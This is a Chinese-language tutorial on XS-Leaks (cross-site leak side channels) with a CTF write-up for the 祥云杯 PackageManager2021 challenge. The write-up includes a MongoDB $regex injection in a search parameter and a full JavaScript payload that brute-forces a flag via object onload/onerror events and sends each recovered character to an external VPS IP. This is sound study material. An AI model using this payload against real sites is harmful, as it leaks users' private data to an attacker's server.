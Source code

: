 # XSleaks

## 什么是 XS-Leaks

XS-Leaks 全称 Cross-site leaks，可以用来 **探测用户敏感信息**。利用方式、利用条件等都和 csrf 较为相似。

说到探测用户敏感信息，是如何进行探测的？和csrf 相似在哪？

设想网站存在一个模糊查找功能（若前缀匹配则返回对应结果）例如 `http://localhost/search?query=`，页面是存在 xss 漏洞，并且有一个类似 flag 的字符串，并且只有不同用户查询的结果集不同。这时你可能会尝试 csrf，但是由于网站正确配置了 CORS，导致无法通过 xss 结合 csrf 获取到具体的响应。这个时候就可以尝试 XS-Leaks。

虽然无法获取响应的内容，但是是否查找成功可以通过一些侧信道来判断。通过哪些侧信道判断呢？

这些侧信道的来源通常有以下几类：

1. 浏览器的 api (e.g. [Frame Counting](https://xsleaks.dev/docs/attacks/frame-counting/) and [Timing Attacks](https://xsleaks.dev/docs/attacks/timing-attacks/))
2. 浏览器的实现细节和bugs (e.g. [Connection Pooling](https://xsleaks.dev/docs/attacks/timing-attacks/connection-pool/) and [typeMustMatch](https://xsleaks.dev/docs/attacks/historical/content-type/#typemustmatch))
3. 硬件bugs (e.g. Speculative Execution Attacks [4](https://xsleaks.dev/#fn:4))

## 利用条件

具有模糊查找功能，可以构成二元结果（成功或失败），并且二元之间的差异性可以通过某种侧信道技术探测到。

可以和 csrf POST 型一样触发，需要诱使受害者触发执行 js 代码。所以特定功能数据包必须没有类似 csrf token 的保护等。



## 配合学习

强烈推荐祥云杯web_PackageManager2021，在BUUCTF上已有复现，典型的xsLeaks题目，关于xsleaks的部分wp



利用`packages/list/?search`的功能，发现虽然可以实现search的功能，但是并不能按照内容正则匹配搜出来

![](img/wp1.png)

这里search参数可以是对象。而对于后端mongodb来说，我们是能利用`{$regex: 'xxx'}`这样的查询进行正则搜索的。故访问 `packages/list?search[description][$regex]=^f`就可以进行正则查询desscription了。这样就符合xsleak的思路了。

而具体leak的方法。我们使用`object`标签。它能在火狐环境下做到，如果`object.data`访问状态码200，就会触发onload事件。如果访问状态码404，就会触发onerror事件。我们根据这个差异性，就能利用search注出flag内容了。

后面是自己VPS搭建一个接收

```javascript
<html>
<script>
    const VPS_IP = 'http://120.27.246.202/'
    const chars = "0123456789abcdefghijklmnopqrstuvwxyz-{}";
    
    const escape = (c) => {
        return c.replace(/[.*+?^=!:${}()|[\]\/\\]/g, '\\$&');
    }
    
    const oracle = async (url) => {
        return new Promise((resolve, reject) => {
            const object = document.createElement("object");
            object.data = url;
            object.onload = resolve;
            object.onerror = reject;  
            document.head.appendChild(object);
        });
    }
    const search = async (url) => {
        try {
            await oracle(url)
            return true;
        } catch (e) {
            return false;
        }
    }

    (async () => {
        let flag = '';
        let url = `http://localhost:8000/packages/list?search[description][$regex]=^${flag}`
        while (flag.charAt(flag.length - 1) !== "}") {
            for ( let i of chars ) {
            if ( await(search(url + escape(i))) ) {
                url = url + escape(i)
                flag += i
                await fetch(`${VPS_IP}/?flag=${flag}`, {mode: 'no-cors'})
                break;
        }   else {
            console.log('failed');
            }
         }
        }
    })();
</script>
<img src="https://deelay.me/10000/http://example.com"/>
</html
```

![](img/xsleaks.png)

可以看看最后的效果